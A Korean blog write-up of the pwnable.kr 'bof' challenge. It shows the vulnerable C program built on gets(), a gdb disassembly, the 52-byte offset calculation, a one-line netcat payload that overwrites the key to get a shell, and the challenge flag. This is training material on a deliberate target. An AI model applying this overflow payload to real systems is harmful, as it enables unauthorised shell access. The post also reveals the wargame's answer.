 ```yaml
---
layout: post
title: ! "[Pwnable.kr] bof"
categories: [Pwnable.kr]
excerpt: " "
comments: true
share: true
tags:
  - Pwnable.kr
  - bof
---
```


![]({{ site.baseurl }}/assets/posts/pwnkr/bof.png)

이름만 봐도 알 수 있는 buffer overflow 문제!
코드는 다음과 같다.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}

int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

gets함수 부분에 주석으로 smash me!가 있는걸 보니 gets 함수의 취약점을 이용한 bof인 듯 하다.
main에서 0xdeadbeef 값을 func에 넘겨주고 함수가 실행되는데 `key = 0xdeadbeef` 이고
user로 부터 변수 overflowme를 받은 후 `key가 0xcafebabe 과 일치할 때` 쉘을 실행시킨다.
그럼 어떻게 해야될까 gdb로 한 번 봐 보자

```
mitny@argos-edu:~/pwnable$ gdb -q bof
Reading symbols from bof...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x0000068a <+0>:	push   ebp
   0x0000068b <+1>:	mov    ebp,esp
   0x0000068d <+3>:	and    esp,0xfffffff0
   0x00000690 <+6>:	sub    esp,0x10
   0x00000693 <+9>:	mov    DWORD PTR [esp],0xdeadbeef
   0x0000069a <+16>:	call   0x62c < func>
   0x0000069f <+21>:	mov    eax,0x0
   0x000006a4 <+26>:	leave  
   0x000006a5 <+27>:	ret    
End of assembler dump.
(gdb) disas func
Dump of assembler code for function func:
   0x0000062c <+0>:	push   ebp
   0x0000062d <+1>:	mov    ebp,esp
   0x0000062f <+3>:	sub    esp,0x48
   0x00000632 <+6>:	mov    eax,gs:0x14
   0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:	xor    eax,eax
   0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:	call   0x645 < func+25>
   0x00000649 <+29>:	lea    eax,[ebp-0x2c]
   0x0000064c <+32>:	mov    DWORD PTR [esp],eax
   0x0000064f <+35>:	call   0x650 < func+36>
   0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:	jne    0x66b < func+63>
   0x0000065d <+49>:	mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:	call   0x665 < func+57>
   0x00000669 <+61>:	jmp    0x677 < func+75>
   0x0000066b <+63>:	mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:	call   0x673 < func+71>
   0x00000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:	je     0x688 < func+92>
   0x00000683 <+87>:	call   0x684 < func+88>
   0x00000688 <+92>:	leave  
   0x00000689 <+93>:	ret    
End of assembler dump.
```
`0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe `
이 부분에서 ebp+0x8 에 있는 값과 0xcafebabe 를 비교해서 
일치하지 않으면 func+63 으로 jump, 일치하면 func+75로 jump를 하게 되는데

[ebp-0x2c] 와 [ebp+0x8] 사이의 거리는 52!
즉, 52바이트 만큼 다른 문자를 채워넣고 0xcafebabe 를 넣어 주면 된다.

`(python -c 'print "A"*52+"\xbe\xba\xfe\xca"'; cat) |nc pwnable.kr 9000` 를 해주면
![]({{ site.baseurl }}/assets/posts/pwnkr/bof_flag.png)

flag가 뜬다!

`daddy, I just pwned a buFFer :)`
